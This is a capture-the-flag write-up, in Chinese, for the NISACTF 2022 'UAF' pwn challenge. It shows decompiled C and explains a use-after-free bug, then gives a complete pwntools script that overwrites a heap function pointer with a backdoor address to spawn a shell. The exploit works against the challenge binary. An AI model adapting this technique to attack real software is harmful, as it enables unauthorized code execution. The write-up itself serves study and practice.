 ```yaml
---
title: '[NISACTF 2022]UAF'
date: 2024-04-28 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf]
---
```

# [[NISACTF 2022]](https://www.nssctf.cn/problem/2161)UAF

```shell
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=85bd87e16a35c0c05064a1a0938f6115b8b3b2be, not stripped
```

> $ file pwn

```shell
[*] '/home/bamuwe/NISACTF_2022_UAF/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

> $ checksec pwn

```c
int create()
{
  int result; // eax
  int v1; // ebx
  char *v2; // eax

  printf("you are creating the %d page\n", i);
  result = i;
  if ( i >= 0 )
  {
    result = i;
    if ( i <= 9 )
    {
      v1 = i;
      (&page)[v1] = malloc(8u);
      if ( i )									// 判断点
      {
        if ( i <= 0 || i > 9 )
        {
          return puts("NO PAGE");
        }
        else
        {
          puts("Good cretation!");
          return ++i;
        }
      }
      else
      {
        v2 = page;
        *page = 'oaig';                         // giao
        v2[4] = 0;
        *(page + 1) = echo;						// 在堆中存贮了echo()的地址
        puts("The init page");
        return ++i;
      }
    }
  }
  return result;
}
```

> create()函数

```c
int __cdecl NICO(char *command)
{
  return system(command);
}
```

> 后门函数NICO()

```c
unsigned int del()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 < 0 || v1 > i )
    puts("NO PAGE");
  else
    free((&page)[v1]);
  return __readgsdword(0x14u) ^ v2;
}											// 没有清空指针
```

> del()函数

```c
unsigned int show()
{
  int v1; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("Input page");
  __isoc99_scanf("%d", &v1);
  if ( v1 )                                     // v1=0
  {
    if ( v1 <= 0 || v1 > i )
      puts("NO PAGE");
    else
      echo((&page)[v1]);
  }
  else
  {
    (*(page + 1))(page);                        // 利用点
  }
  return __readgsdword(0x14u) ^ v2;
}
```

> show()函数

交互函数：

```python
def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
```

程序逻辑：

1. `add()`堆块的时候，如果创建的是第一块`chunk0`则往`chunk0+1`的位置写入`echo()`的地址
2. del()并没有删除指针
3. `show()`执行时，如果是`chunk1-9`非零`chunk`，则`echo((&page)[v1]);`，如果是`chunk0`，则`(*(page + 1))(page); `，正常情况下是执行`echo(page)`

利用思路：

1. 程序存在`UAF`，所以可以先申请`chunk0`然后释放再申请，就可以获得两个指针`*chunk0,*chun1`都指向同一块内存区域

   ```python
   add()   #0
   free(0)
   add()   #1
   ```

   ![image-20240428204547865](../assets/img/old_imgs/image-20240428204547865.png)

   重新申请的时候由于`i`的值没有重置`（i=1）`，所以不会重新向`chunk`中写入`echo`的地址，我们也可以发现，此时`show(0)`是失效的

   ![image-20240428204716350](../assets/img/old_imgs/image-20240428204716350.png)

2. 只有在`chunk0`上才能执行我们的利用点

![image-20240428203145487](../assets/img/old_imgs/image-20240428203145487.png)

3. 我们通过`*chunk1`修改`chunk0/1`上的内容为`sh\x00\x00`,我们要考虑栈平衡填充，同时修改`page+1`为后门函数地址，构造`NICO(sh)`

   ```python
   edit(1,b'/sh\x00'+p32(0x8048642))
   show(0)
   ```

___

exp:

```python
from pwn import *
io = gdb.debug('./pwn')

def add():
    io.sendlineafter(b':',b'1')
    
def edit(idx,text):
    io.sendlineafter(b':',b'2')
    io.sendlineafter(b'page\n',str(idx))
    io.sendlineafter(b'strings\n',text)

def free(idx):
    io.sendlineafter(b':',b'3')
    io.sendlineafter(b'page\n',str(idx))

def show(idx):
    io.sendlineafter(b':',b'4')
    io.sendlineafter(b'page\n',str(idx))
    
add()   #chunk0
free(0)
add()   #chunk1
edit(1,b'sh\x00\x00'+p32(0x8048642))
show(0)

io.interactive()
```

